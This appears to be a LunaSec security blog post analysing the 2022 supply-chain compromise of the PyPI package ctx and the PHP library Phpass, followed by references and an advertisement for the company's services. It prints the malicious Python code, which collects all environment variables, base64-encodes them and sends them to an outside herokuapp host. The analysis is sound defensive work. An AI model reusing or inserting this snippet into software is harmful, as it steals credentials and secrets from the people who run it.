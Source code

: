```yaml
---
title: "How two Python and PHP dependencies, ctx and Phpass, became malware that stole secrets and credentials"
description: A security expert's analysis of the malicious code added to ctx and Phpass, Python and PHP dependencies, that turned them into malware by sending environment variables and credentials to a third party attacker.
slug: python-ctx-package-malware
date: 2022-05-24
keywords: [dependencies]
tags: []
authors: [chris, free, gabe]
---
```


<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

## PyPi package, `ctx`, compromised

After 7 years, the pypi package `ctx` received a version update. A malicious version of ctx was published under `0.2.2` as and update to the previous `0.1.2`. In this post we'll be reviewing the malicious code that was introduced.

<!--truncate-->

## Malicious Code in `ctx` version `0.2.2`

The following code was added to the package:

```python
def __init__(self):
    self.sendRequest()

    # code that performs dict access
    # please DO NOT RUN THIS CODE !

     def sendRequest(self):
        string = ""
        for _, value in environ.items():
            string += value+" "

        message_bytes = string.encode('ascii')
        base64_bytes = base64.b64encode(message_bytes)
        base64_message = base64_bytes.decode('ascii')

        response = requests.get("https://anti-theft-web.herokuapp.com/hacked/"+base64_message)
```

## `Phpass` contains identical malware

The library `Phpass` also received identical malicous code around the same time.

<a href="https://twitter.com/s0md3v/status/1529005758540808192" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/ctx-Twitter-Screenshot.png" alt="Screenshot of ctx Twitter tweet" />
</a>


<a href="https://twitter.com/s0md3v/status/1529010306466615296" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/Phpass-Twitter-Screenshot.png" alt="Screenshot of Phpass Twitter tweet" />
</a>

## External References

- [Archived version](https://archive.ph/xTUEN) of package versions.

- [Initial post](https://old.reddit.com/r/Python/comments/uumqmm/ctx_new_version_released_after_7_years_750k) observing the package had been updated.

- [Reddit post](https://old.reddit.com/r/Python/comments/uwhzkj/i_think_the_ctx_package_on_pypi_has_been_hacked/) with details about the malicious changes to ctx.

- [Sonatype blog post](https://blog.sonatype.com/pypi-package-ctx-compromised-are-you-at-risk) with details about timeline.

## For a limited time, claim an expert security review

Though perhaps unconventional, our team of Security Engineers has been working with startups to audit their dependencies and help them manage their security roadmap.

Why? It's simple: By working with us, we also learn about the common problems that companies face while shipping software. Helping you enables us to make our Open Source software better.

To get started, send us an email at [deps@lunasec.io](mailto:deps@lunasec.io) or [schedule a 15 minute call](https://cal.com/lunasec/15min) with one of our engineers.

### Who are we?

If you've heard of [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/) or [Spring4Shell](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities), then you're familiar with our work already! We're the security experts that gave those vulnerabilities their name by providing clear, concise advice and [building tools to resolve them](https://github.com/lunasec-io/lunasec).

Since then, we've interviewed hundreds of companies to help us build [LunaTrace](https://github.com/marketplace/lunatrace-by-lunasec).

What is LunaTrace? It's our Open Source security platform that automatically discovers vulnerabilities in your dependencies and gives you expert security guides with remediation steps and automated patches.

Whether you're a developer or a security professional, we'd love to hear from you! Drop us a line by [joining our Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-19wb6qg8w-OC1ktWO2LkG8lL3fpLD3AA) or trying out LunaTrace on your [GitHub repo for free](https://github.com/marketplace/lunatrace-by-lunasec).
